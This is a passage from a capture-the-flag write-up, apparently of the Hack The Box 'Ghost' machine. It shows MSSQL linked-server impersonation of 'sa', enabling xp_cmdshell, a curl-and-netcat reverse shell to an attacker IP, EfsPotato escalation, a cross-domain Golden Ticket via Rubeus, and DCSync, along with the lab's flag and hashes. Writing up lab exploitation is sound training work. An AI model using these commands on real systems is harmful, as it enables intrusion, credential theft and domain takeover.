

I do have two, `DC01` and `PRIMARY`. So I checked which privileges I have over `PRIMARY`.

```sql
SELECT * FROM OPENQUERY("PRIMARY", 'SELECT SYSTEM_USER AS login, IS_SRVROLEMEMBER(''sysadmin'') AS is_sa');
```



I found a login there, `bridge_corp`, let's keep going.

```sql
SELECT * FROM OPENQUERY("PRIMARY", 'SELECT name, type_desc, is_disabled FROM sys.server_principals WHERE type IN (''S'',''U'',''G'')');
```



So there's a login for `sa`, a potential one to impersonate.

```sql
EXEC ('EXECUTE AS LOGIN = ''sa''; SELECT SYSTEM_USER AS login, IS_SRVROLEMEMBER(''sysadmin'') AS is_sa;') AT [PRIMARY];
```



That's what I did, then I enabled `xp_cmdshell` and confirmed.

```sql
EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [PRIMARY];

EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC xp_cmdshell ''whoami'';') AT [PRIMARY];
```



RCE confirmed. Let's go for a reverse shell on the target:

```sql
EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC xp_cmdshell ''curl.exe http://10.10.16.100/nc64.exe -o C:\windows\temp\nc64.exe & C:\windows\temp\nc64.exe -e powershell 10.10.16.100 9001''') AT [PRIMARY];
```

I had to do it as a one-liner because for some reason I wasn't getting a shell after uploading `nc64.exe` separately, so I solved it like this. Don't know exactly why, but it worked.


## SeImpersonate → SYSTEM on corp

So we're in as `nt service\mssqlserver`. Now we need to elevate, so I ran `whoami /priv`.


And there's a quick win, we have `SeImpersonatePrivilege`. I found [EfsPotato](https://github.com/zcgonvh/EfsPotato) and transferred it over. I tried `temp` first but no luck, so I used `Users\Public`. Then I needed to compile it:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /platform:x64 -out:C:\Users\Public\ep.exe C:\Users\Public\ep.cs
```

And with the executable ready I popped a reverse shell, this time a privileged one.


And here's the shell landing on my netcat listener.


Got `nt authority\system`. Let's see what we can do now. I went for the flag expecting it to be there, but it wasn't, so there's more to do. After dumping stuff and trying a lot of things I was about to give up, but then I remembered: this is 2 domains, I'm DA on `corp.ghost.htb` which is a subdomain of `ghost.htb`, so maybe the flag is on the `ghost.htb` domain and I can craft a Golden Ticket to reach the other domain through the trust. So I transferred mimikatz over and dumped the NTLM and the SID of `corp`.


## Golden Ticket across the trust

With that I have everything to forge a Golden Ticket. I grabbed the SID of `ghost.htb` from the BloodHound results and transferred Rubeus to forge it:

```powershell
C:\windows\temp\r.exe golden /aes256:b0eb79f35055af9d61bcbbe8ccae81d98cf63215045f7216ffd1f8e009a75e8d /user:Administrator /domain:corp.ghost.htb /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /ptt
```


To confirm we got access to `DC01.ghost.htb`, I listed the Administrator desktop.


And grabbed the root flag:

```
2a406d4a55c303dd4e1ad2f7f523ff7d
```

If we want a real shell as admin we can just DCSync with the injected ticket:

```bash
lsadump::dcsync /domain:ghost.htb /dc:DC01.ghost.htb /user:S-1-5-21-4084500788-938703357-3654145966-500
```


Grabbed the admin hash `1cdb17d5c14ff69e7067cffcc9e470bd` and used evil-winrm to log in as admin on `DC01.ghost.htb`.


And there we go, a shell as DA on the Ghost DC.

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | subdomain enum (core/federation/intranet/gitea) | ADFS + intranet + Gitea surface |
| Foothold | boolean LDAP injection on the intranet | login as `kathryn.holland`, then brute `gitea_temp_principal` |
| Pivot | Ghost CMS path traversal → `/proc/self/environ` | `DEV_INTRANET_KEY` |
| Shell | command injection on `/api-dev/scan` | root in a Linux container |
| Domain | container env `LDAP_BIND_PASSWORD` | `intranet_principal` (domain user) |
| Lateral | cached ticket (florence) + DNS coerce + Responder | crack `justin.bradley` (user.txt) |
| ADFS | `justin` reads gMSA → Golden SAML | MSSQL console on `core` |
| RCE | MSSQL linked server → impersonate `sa` → `xp_cmdshell` | shell on `PRIMARY` |
| SYSTEM | `SeImpersonate` + EfsPotato | SYSTEM / DA on `corp.ghost.htb` |
| Root | cross-domain Golden Ticket + DCSync | Administrator on `ghost.htb` (root.txt) |
